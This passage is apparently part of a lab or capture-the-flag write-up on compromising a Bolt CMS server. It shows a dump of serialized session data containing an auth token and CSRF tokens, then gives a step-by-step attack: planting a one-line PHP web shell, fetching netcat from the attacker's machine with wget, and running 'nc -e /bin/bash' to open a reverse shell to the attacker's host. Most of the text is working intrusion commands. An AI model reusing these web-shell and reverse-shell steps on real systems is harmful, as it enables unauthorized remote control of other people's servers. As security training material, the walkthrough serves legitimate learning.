 ```
";s:8:"*stack";a:0:{}s:10:"*enabled";i:1;s:17:"*shadowpassword";N;s:14:"*shadowtoken";N;s:17:"*shadowvalidity";N;s:15:"*failedlogins";i:0;s:17:"*throttleduntil";N;s:8:"*roles";a:2:{i:0;s:4:"root";i:1;s:8:"everyone";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:8:"*token";O:29:"Bolt\Storage\Entity\Authtoken":12:{s:5:"*id";s:1:"3";s:10:"*user_id";i:1;s:8:"*token";s:64:"34e3f69a6fc2261d519381fba1f6b235abc31e4c27f7df4e2559812eaadd53fc";s:7:"*salt";s:32:"d34f9accf4805f6d1eb98f5d698722af";s:11:"*lastseen";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2020-04-25 12:32:10.117842";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:5:"*ip";s:10:"172.17.0.1";s:12:"*useragent";s:22:"python-requests/2.23.0";s:11:"*validity";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2020-05-09 12:32:10.000000";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:10:"*checked";i:1587817930;}s:10:"_csrf/bolt";s:43:"Ji6slP_bySLAwmXIDIFpSa6VSGpYwnW2c-2Ik5nEcy0";s:5:"stack";a:0:{}s:18:"_csrf/user_profile";s:43:"lDGl_6zEExwY5SW63TUC0BS-v9JHoXhm9HeVpfFglDc";}s:12:"_sf2_flashes";a:0:{}s:9:"_sf2_meta";a:3:{s:1:"u";i:1587817932;s:1:"c";i:1587817929;s:1:"l";s:1:"0";}}
Enter OS command , for exit 'quit' : 

```

We can create a simple php-shell on the server, like this:echo '<?php system($_GET["c"]);?>'>c.phpThis we can use to upload a netcat reverse shell on the system and get a reverse shell, as there is no netcat on the box.

If you are using Kali Linux, the netcat installed supports the -e parameter (execute). Using this parameter we can start a shell upon connecting. 

The e parameter is often removed from netcat in a lot of the Linux distributions, because it can be exploited to gain a shell. :-)

First we link the installed netcat to the current directory on our attacking machine:

ln -s $(which nc) .

Then we start a simple web server to serve some files, make sure the files you want to serve are in the current directory:

This will listen on port 8000 on you local machine: python3 -m http.server 8000

Using the c.php file we just dropped, we can browse tohttp://serverip/files/cmd.php?c=wget http://yourip:8000/ncto
download a linux netcat to the server, you will see in your web server if it has been retrieved:

This file is dropped in the same directory as our c.php. We make this nc executable like this: http://serverip/files/cmd.php?c=chmod 755 nc

Now start a netcat listener on your own machine, listening on a free port (we use 4444 here)

ncat -nv -l -p 4444

When it is uploaded and made executable, we can run it like this:
http://serverip/files/cmd.php?c=./nc -e /bin/bash yourip 4444


If all goes well, you will see a connection coming in from the bolt server:
(Don’t forget to do the python pty dance, to make sure you have a shell with PTY’s allocated, some commands, especially sudo, require a PTY shell to run)
